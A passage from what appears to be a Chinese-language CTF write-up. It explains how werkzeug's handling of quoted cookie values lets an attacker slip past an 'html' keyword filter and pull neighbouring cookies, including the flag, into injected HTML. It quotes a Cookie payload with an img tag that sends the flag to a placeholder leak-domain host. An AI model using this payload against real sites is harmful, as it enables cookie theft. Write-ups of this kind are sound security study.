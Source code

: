 ```javascript
window.onload = () => {
    const params = (new URLSearchParams(window.location.search));
    if (params.get("settings")) {
        window.settings = getSettings(params.get("settings"));
        saveSettings(window.settings);
        renderSettings(window.settings);
    } else {
        window.settings = getCookie("settings");
    }
    window.settings = JSON.parse(window.settings);
```

那这题到底要怎么解呢？这一切都与 werkzeug 解析 cookie 时的逻辑有关。

先来讲如何绕过那个 html 的检查，在 werkzeug 里面如果你的 cookie value 是用 `""` 包住的话，会先进行 decode，因此 `"\150tml"` 会被 decode 成 `"html"` ，就可以绕过对于 html 关键词的检查。

但绕过之后，要怎么拿到 flag 呢？这就要用到 werkzeug 第二个解析 cookie 的特殊之处了。当 werkzeug 在解析 cookie 时，如果碰到 `"` 时，就会解析到下一个 `"` 为止。

 举例来说，假设 cookie 的内容是这样：

```bash
Cookie: cookie1="abc; cookie2=def";
```

 最后得到的结果会是： `"cookie1": "abc; cookie2=def"`

也就是说，如果我们在 flag 的前后各夹一个 cookie，就可以让 flag 包含在 html 里面，让 flag 的内容出现在 html 中，再用其他任何方式把 cookie 拿走，底下直接用作者的 payload：

```bash
Cookie: settings="{\"\150tml\": "<img src='https://leak-domain/?cookie= ;flag=GH{FAKE_FLAG}; settings='>\"}"
```

看完这题才突然想到以前 DiceCTF 2023 也出现过类似的题目，那时候是 jetty 有这个行为：Web - jnotes（6 solves），看来搞不好还不少 web framework 有这个 parsing 行为。

[#Security](https://blog.huli.tw/tags/Security/)

[↓↓↓](https://blog.huli.tw/2023/11/27/server-side-rendering-ssr-and-isomorphic/)  
  
从历史的角度探讨多种 SSR（Server-side rendering）  
  
[↑↑↑](https://blog.huli.tw/2023/11/27/server-side-rendering-ssr-and-isomorphic/)
